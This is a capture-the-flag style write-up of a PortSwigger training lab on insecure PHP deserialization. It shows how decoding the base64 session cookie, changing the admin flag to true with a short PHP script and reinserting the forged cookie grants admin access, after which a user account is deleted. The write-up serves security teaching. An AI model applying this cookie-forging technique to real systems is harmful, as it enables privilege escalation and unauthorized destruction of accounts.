 # Modifying serialized objects

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects), you'll learn: Modifying serialized objects! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110035303.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110035322.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110035339.png)

**When we successfully logged in, a new session cookie has been set:**

**URL decoded:**
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=
```

As you can see, the last character is `=`, which is a padding character in base64!

**Let's base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# echo -n 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30=' | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

**As you can see, the decoded base64 string is a serialized PHP object!**

Let's break it down:

- `O:4:"User"` means there is an `User` object, and it's length is 4 characters long
- `2` means there are 2 attributes:
    - `s:8:"username"` means the **first attribute** is called `username`, and it's length is 8 characters long
        - `s:6:"wiener"` means `username` attribute value is `wiener`, and it's length is 6 characters long
    - `s:5:"admin"` means the **second attribute** is called `admin`, and it's length is 5 characters long
        - `b:0` means the `admin` attribute value is boolean value `0` (`false`)

**Armed with above information, we can write a PHP code to serialize and deserialize that PHP object:**
```php
<?php
    $deserializedObject = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}';

    $serializedObject = unserialize($deserializedObject);
    echo "[+] Serialized: \n";
    var_dump($serializedObject);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php
[+] Serialized: 
object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(6) "wiener"
  ["admin"]=>
  bool(false)
}
```

**Now, to gain administrator privilege, we can just change the `admin` attribute to `true` (`1`):**
```php
<?php
    $deserializedObject = 'O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:1;}';

    $serializedObject = unserialize($deserializedObject);
    echo "[+] Serialized: \n";
    var_dump($serializedObject);

    echo "[+] Base64 encoded: \n" . base64_encode($deserializedObject);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php 
[+] Serialized: 
object(__PHP_Incomplete_Class)#1 (3) {
  ["__PHP_Incomplete_Class_Name"]=>
  string(4) "User"
  ["username"]=>
  string(6) "wiener"
  ["admin"]=>
  bool(true)
}
[+] Base64 encoded: 
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30=
```

**Let's change the session cookie with our newly created PHP serialized object in base64 encoded:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041522.png)

**Then refresh the page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041536.png)

We can access to the admin panel!

Let's delete user `carlos`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041556.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Insecure-Deserialization/Deserial-1/images/Pasted%20image%2020230110041607.png)

# What we've learned:

1. Modifying serialized objects